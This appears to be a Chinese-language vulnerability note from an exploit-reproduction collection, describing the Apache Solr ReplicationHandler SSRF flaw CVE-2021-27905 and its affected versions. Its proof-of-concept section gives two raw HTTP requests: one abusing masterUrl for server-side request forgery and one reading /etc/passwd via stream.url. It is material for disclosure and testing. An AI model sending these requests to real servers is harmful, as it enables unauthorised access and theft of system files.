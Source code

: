 # Apache Solr Replication handler SSRF CVE-2021-27905

## 漏洞描述

Apache Solr是一个开源搜索服务引擎，Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。漏洞产生在 ReplicationHandler 中的 masterUrl 参数（ leaderUrl 参数）可指派另一个 Solr 核心上的 ReplicationHandler 讲索引数据复制到本地核心上。成功利用此漏洞可造成服务端请求伪造漏洞。

参考链接：

* https://nvd.nist.gov/vuln/detail/CVE-2021-27905

## 漏洞影响

```
Apache Solr 7.0.0 - 7.7.3 Apache Solr 8.0.0 - 8.8.1
```

### 漏洞复现

poc：

```
GET /solr/test/replication?command=fetchindex&masterUrl=http://127.0.0.1/&wt=json&httpBasicAuthUser=&httpBasicAuthPassword= HTTP/1.1
HOST:target
....
```

```
GET http://xxxxx/solr/xxxx/debug/dump?stream.url=file:///etc/passwd&param=ContentStream HTTP/1.1
HOST:target
...
```

